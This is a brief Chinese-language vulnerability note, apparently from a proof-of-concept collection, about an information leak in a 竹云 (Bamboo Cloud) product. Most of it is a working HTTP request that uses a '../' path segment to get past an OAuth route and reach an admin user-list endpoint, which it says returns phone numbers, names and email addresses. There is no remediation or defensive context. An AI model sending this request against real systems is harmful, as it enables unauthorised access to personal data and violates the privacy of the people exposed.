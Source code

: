 # 竹云 findlist 信息泄漏

    竹云的信息泄漏
POST /admin-api/oauth/../admin/user/findlist

{"pagesize":5,"pageNumber":1,"userName":""}

可以看到手机号、姓名、邮箱等
